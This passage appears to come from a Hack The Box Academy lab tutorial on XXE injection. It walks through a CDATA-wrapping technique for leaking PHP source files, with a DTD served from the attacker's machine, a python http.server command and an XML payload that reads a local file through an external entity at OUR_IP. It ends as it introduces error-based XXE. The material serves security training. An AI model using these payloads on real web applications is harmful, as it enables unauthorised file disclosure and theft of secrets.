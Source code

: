 Code: xml

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

&#x20; Advanced File Disclosure

```shell-session
root@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
root@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

Code: xml

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file: ![php\_cdata](https://academy.hackthebox.com/storage/modules/134/web\_attacks\_xxe\_php\_cdata.jpg)

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

Note: In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. `Try to use this trick to read other files`.

***

### Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.
